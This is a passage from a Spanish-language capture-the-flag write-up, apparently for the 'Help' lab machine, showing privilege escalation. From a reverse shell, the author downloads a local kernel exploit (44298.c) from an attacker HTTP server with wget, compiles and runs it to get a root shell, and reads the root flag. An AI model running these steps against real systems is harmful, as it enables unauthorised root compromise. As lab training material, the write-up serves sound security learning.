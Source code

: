 <img src='/images/portfolio/help/searchsploit.png' width='900' height=auto><br/>

Procedí a copiar el exploit a mi directorio de trabajo y arranqué un servidor HTTP para descargar el exploit desde el reverse shell.<br/>

    help@help:/home/help$ wget http://10.10.14.27:8000/44298.c 
    wget http://10.10.14.27:8000/44298.c                                                                                                                         
    --2024-01-21 09:51:32--  http://10.10.14.27:8000/44298.c
    Connecting to 10.10.14.27:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5773 (5.6K) [text/x-csrc]
    Saving to: '44298.c'

    44298.c             100%[===================>]   5.64K  --.-KB/s    in 0s      

    2024-01-21 09:51:32 (285 MB/s) - '44298.c' saved [5773/5773]

    help@help:/home/help$ ls
    ls
    44298.c  help  npm-debug.log  user.txt

Una vez que descargé el exploit (44298.c) en la víctima, compilé el programa y lo ejecuté obteniendo acceso root.<br/>

    help@help:/home/help$ gcc 44298.c -o 44298
    gcc 44298.c -o 44298
    help@help:/home/help$ ls
    ls
    44298  44298.c  help  npm-debug.log  user.txt
    help@help:/home/help$ ./44298
    ./44298
    task_struct = ffff88003d347000
    uidptr = ffff88003d03ac04
    spawning root shell
    root@help:/home/help# whoami
    whoami
    root

Ya teniendo acceso de superusuario solo quedaba obtener el flag en la ruta clásica '/root/root.txt'.<br/>

    root@help:/home/help# cd /root
    cd /root
    root@help:/root# cat root.txt
    cat root.txt
    c44c1c032dfeba295202199adf9c916e